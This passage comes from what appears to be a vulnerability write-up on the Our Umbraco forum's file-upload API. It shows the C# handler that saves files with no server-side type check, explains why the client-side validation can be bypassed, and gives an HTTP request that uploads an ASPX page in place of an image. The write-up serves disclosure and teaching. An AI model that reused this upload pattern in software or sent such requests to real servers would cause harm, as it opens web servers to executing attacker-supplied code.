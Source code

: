 ```csharp
                updir.Create();

            var postedFile = httpRequest.Files[file];

            var filePath = updir.FullName + "/" + postedFile.FileName;
            postedFile.SaveAs(filePath);
```

When an HTTP POST request is made to this method it will save any uploaded files to a randomly generated directory under _/media/upload/_. The original filenames are retained and the files will be publicly accessible. For example, a file named _friendly.jpg_ will end up somewhere like *https://our.umbraco.com/media/upload/8ca832e8-a5d0-4cf1-b46f-fc3da2d7b59a/friendly.jpg*.

Let's look at why this code is vulnerable and how to exploit it.

## Validation Bypass

If you try to upload a non-image file from the front end you will get the following error:

![Screenshot of the error received when attempting to upload an invalid image in the Our Umbraco forum](/images/ource/validation-error.png)

This validation is performed by JavaScript code running in the browser. If the validation fails, the file isn't uploaded and the server-side code above isn't executed.

As you may have noticed, there is no server-side validation of the file type _at all_, so bypassing this validation is simply a matter of issuing an HTTP request directly to the API. We can do this with a tool like Burp Suite or Postman.

The following is an example of a legitimate HTTP request that might be sent to the API from the front end to upload an image:

```http
POST /Umbraco/Api/Forum/EditorUpload HTTP/1.1
Host: localhost:24292
Content-Type: multipart/form-data; boundary=---------------------------276306773941646018834216137931
Cookie: yourAuthCookie=[AUTH COOKIE]
Content-Length: 230

-----------------------------276306773941646018834216137931
Content-Disposition: form-data; name="file"; filename="friendly.jpg"
Content-Type: image/jpg

[IMAGE DATA]
-----------------------------276306773941646018834216137931--
```

📝 **Note**: Images can only be uploaded by logged-in members so a valid authentication cookie must be passed in all requests. This is easily obtained by registering an account and logging in.

Knowing that Umbraco is based on ASP.NET, I first modified the request to upload an ASPX page instead of an image:

```http
POST /Umbraco/Api/Forum/EditorUpload HTTP/1.1
Host: localhost:24292
Content-Type: multipart/form-data; boundary=---------------------------276306773941646018834216137931
Cookie: yourAuthCookie=[AUTH COOKIE]
Content-Length: 243

-----------------------------276306773941646018834216137931
Content-Disposition: form-data; name="file"; filename="unfriendly.aspx"
Content-Type: image/jpg

<%= DateTime.Now %>
-----------------------------276306773941646018834216137931--
```